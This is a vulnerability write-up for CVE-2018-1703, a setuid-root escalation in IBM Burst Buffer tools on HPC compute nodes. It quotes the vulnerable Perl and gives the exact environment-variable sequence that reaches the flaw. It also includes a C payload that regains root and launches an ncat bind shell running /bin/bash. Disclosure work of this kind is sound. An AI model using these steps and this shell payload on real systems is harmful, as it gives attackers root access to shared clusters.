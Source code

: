 # CVE-2018-1703: Burst Buffer Setuid Root Escalation

## Overview

Debugging related binaries shipped with older versions of Burst Buffer software are susceptible to privilege escalation.  Burst Buffer is a type of buffer/cache that is available for the pre-staging (and post-staging) of data before and after a scientific job is placed on a compute node. Because simulations at scale are extremely fine-grained, scientific compute jobs will often wait for some time at the beginning of their code execution for data to stream into memory from fast scratch.  Burst Buffering is directed by system-level processes to pre-stage the next job's data onto compute node-local NVMe drives and reduce idle time spent on I/O at the beginning and end of compute jobs. Because this capability can be directed by system-level processes and the scheduler, it is of particular interest from an authentication and trust boundary perspective.

## Links

  - https://github.com/IBM/CAST
  - https://www-01.ibm.com/support/docview.wss?uid=ibm10734239
  - http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1703

## Tools and Background Knowledge

  * Linux Command Line Tools
  * find (for finding setuid root binaries!)
  * PERL (yuck)

## Writeup

The Burst Buffer package shipped with several tools related to the Burst Buffer ecosystem. Some of these were used early on in Burst Buffer development to emulate the Burst Buffer `bbproxy` before it was complete so that client side command line tooling could be developed.  These tools were installed by RPMs with the setuid bit set, meaning that users on the system can run these administrative tools and take advantage of any arbitrary code execution flaws within.  Here's an example of the vulnerable perl code that calls the user defined *$bbscript*.  &setupUserEnvrionment();

```
sub phase2
{
    $BADEXITRC = $BADNONRECOVEXITRC;
    &setupUserEnvironment();
    foreach $bbscript (@STGIN)
    {
        bpost("BB: Calling user stage-in script: $bbscript");
        $rc = cmd("$bbscript");
        bpost("BB: User stage-in script exited with $rc", …);
        failureCleanAndExit() if($rc != 0);
    }
}
```

### Diagram
A user logging into the login node can launch an interactive job on compute nodes.  After sshing to a compute node, the stagein_admin command was available to be run and would run user defined code in a context that could escalate to root.

```
                    ┌─────────────────┐   ┌─────────────────────────────────────────────────────────────────┐
                    │   Login Node    │   │                          Compute Node                           │
                    │                 │   │                                     ┌─────────────┐   ┌────────┐│
┌─────────────┐     │                 │   │                  ┌─────────────┐    │ bbtools.pm  │   │  User  ││
│   User @    │   ┌─┴─────┐  ┌──────┐ │ ┌─┴─────┐  ┌──────┐  │stagein_admin│  ┌─┴─────────────┴─┐ │Defined ││
│ Institution ├───▶ sshd  ├──▶ bash ├─┼─▶ sshd  ├──▶ bash ├──▶ (rwsr-xr-x) ├──▶stagein_admin.pl ├─▶  Code  ││
└─────────────┘   └─┬─────┘  └──────┘ │ └─┬─────┘  └──────┘  └─────────────┘  └─────────────────┘ └────────┘│
                    └─────────────────┘   └─────────────────────────────────────────────────────────────────┘
```

### Exploring PERL

One of the things that was nice about this vulnerability is that the perl source code that 'did the stuff' was actually readable (in the rwx sense). In the English sense, it did take a while to put together the appropriate environment variables necessary to hit a vulnerable code path.  Many references to isSetuid (such as this one:)

```
BEGIN
{   
    print "argv[0] = $ARGV[0]\n";
    if(isSetuid())
    {   
        unshift(@INC, '/opt/ibm/bb/scripts/');
    }
```

sprinkle the Perl scripts.  This seems to indicate that awareness of the *setuid==bad* concept, but as a codebase grows during development, it can be very difficult to cross all of the I-s and dot all of the T-s.
### Finding the right combo

After quite a bit of trial and error, tracing perl code and the way that enviornment variables were parsed, this was the magic sequence:

```
$ export LSF_STAGE_STORAGE_MINSIZE=1
$ export LSF_STAGE_JOBID=1337
$ export LSF_STAGE_USER='root'
$ export LSB_HOSTS='h41n07 h41n07'
$ export LSF_STAGE_USER_STAGE_IN=/path/to/shell/executable
```

`LSF_STAGE_STORAGE_MINSIZE` and `LSF_STAGE_JOBID` don't really matter in our case, but if are unset, will result in the perl code bombing. `LSF_STAGE_USER` is important to set as root, although perhaps other users could have been specified and code run as them.  That was not explored. `LSB_HOSTS` must be set to the active set of compute nodes the current job is running under.  Finally, `LSF_STAGE_USER_STAGE_IN` is the script/binary that the burst buffer daemon will use to stage data onto the compute node ahead of the job.  Passing in a binary that opens a listening socket, for instance, is something that we could explore...

### Building the payload

Initially, I used `touch` to demonstrate that my code was running in a privileged context, but the ultimate goal is persistence and a durable shell.  As such, I decided to build netcat for the ppc64le system, start a netcat listener on port 9999 that spawns shell when it's connected to, and then connect to it after running `stagein_admin`.

```
#include <unistd.h>
#include <stdlib.h>

int main( int argc, char **argv ) {

  setuid(0)
  execl("/gpfs/proj01/u01/ncat", "/gpfs/proj01/u01/ncat", "-l", "9999", "-e", "/bin/bash", (char *)NULL);

  return 0;

}
```


### Putting it all together

By configuring our environment *just right*, we can provide an executable to the `stagein_admin` command, which will happily run.  Because it does not take enough care to drop privs, we can use setuid(0) to regain them and own the system.

![Recorded exploitation of this Burst Buffer vulnerability](./gifs/setuid.gif)

### The fix

The fix for this is to not package setuid binaries when they aren't strictly necessary.  Information about affected versions can be found by following the links at the beginning of this writeup.

## Acknowledgements

This research used resources of the Oak Ridge Leadership Computing Facility at the Oak Ridge National Laboratory, which is supported by the Office of Science of the U.S. Department of Energy under Contract No. DE-AC05-00OR22725.
